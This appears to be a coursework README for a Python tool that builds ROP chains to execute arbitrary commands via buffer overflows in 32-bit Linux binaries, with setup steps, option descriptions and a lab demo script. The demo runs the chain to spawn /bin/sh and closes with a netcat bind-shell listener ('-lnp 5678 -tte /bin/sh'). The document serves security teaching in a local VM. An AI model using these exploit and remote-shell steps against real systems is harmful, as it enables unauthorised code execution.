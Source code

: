 This tool can be used for generating ROP chains of arbitrary command lines
Works on x86-32 bit programs with a buffer overflow vulnerability, such as the C strcpy function
Tool can be obtained from the git repo 

FOR THE PURPOSE OF THE TUTORIAL, WE'LL BE USING THE PROVIDED VAGRANTFILE, WHICH RUNS A x86-64 LINUX SYSTEM (tool has not been tested on other systems)

To log into the VM, run:

    vagrant up
    vagrant ssh

The tool and example files can be obtained by cloning https://github.com/navratilj/sss-cw.git

Requirements before using the tool:

    - python3
    - python3-pip
    - gdb
    - gcc-multilib
    - capstone
    - ROPgadget (https://github.com/JonathanSalwan/ROPgadget)

On Linux systems, these can be installed by running:

    sudo apt-get update -y
    sudo apt install -y python3-pip gdb gcc-multilib
    sudo pip3 install capstone
    sudo -H python3 -m pip install ROPgadget

The provided Vagrantfile should automatically install them. If not, run:

    vagrant provision


TOOL USAGE
-------------------------------------------------------------------------

The tool is the "autorun.py" script

To see usage, run:

    python3 autorun.py -h

This will display the tool options and necessary arguments to run
Two arguments are non-optional:

    -b/-bin/--binary --> Path to the vulnerable binary

    -e/-exe/--execute --> Command line you wish to execute.
                          If it contains spaces, make sure to enclose it in ' ' or " "

With no other arguments provided, the tool will produce a ROP chain and put the output into "rop-output". To change the name of the output file, use the -o OUTPUT argument

The -a option automatically runs the produced ROP chain in the binary

The -d DATA_ADDR allows you to set your own .data address

The -g GDB_RUN argument allows you to change the file that gdb will test padding on. This is used for files that have a hard coded name of the file they try to copy from

The -p option skips the gdb step and only produces the ROP chain without padding. Use for files that don't have a simple ./<bin> <file_name> structure

The -badbytes BADBYTES argument enables you to not find gadgets with addresses that contain the badbytes


SHOWCASE EXAMPLE
-------------------------------------------------------------------------
 
Run tmux, on the right side have README open

Log in to the vagrant machine

Clone https://github.com/navratilj/sss-cw.git to obtain autorun.py and lab 3 and 4 files

Compile files using: gcc -fno-stack-protector -m32 -static <file.c> -o <bin> (static for easier finding of gadgets, no protector because tool can't bypass stack canaries)

Show ASLR is on: cat /proc/sys/kernel/randomize_va_space (2 == on)

Show NX is enabled: rabin2 -I <file>

Show usage: python3 autorun.py -h

Run and example command(/bin/sh, ls, ls -a -l, python...) without -a option. 
This should create a ROP chain and output it to rop-output. 
Then run ./<bin> rop.output and your command should execute

Run with the -a option to run automatically

Change size of buffer in an example file to show that it works with different buffer size

Run readelf -S <file> to show writeable memory spaces. These can be recognised by the letter W
Use -d to change to and address that contains a null byte. 
Had I had more time, if the address contained a null byte, it would search for a different W address

The -badbytes option finds gadgets without the specified bytes in their address (example: d5, 90, 61)
Their form is of <instruction_needed> ; (many pop instructions) ; ret
If I had more time, I would extend the tool to find gadgets of form (many pop instructions) ; <instruction_needed> ; (many pop instructions) ; ret

Running netcat:

    untar using tar -xzf <file>
    ./configure
    make
    cp src/netcat /tmp/nc
    mkdir left_window right_window
    left --> /tmp/nc -lnp 5678 -tte /bin/sh
    right --> /tmp/nc 127.0.0.1 5678
              pwd 

That's all, thank you!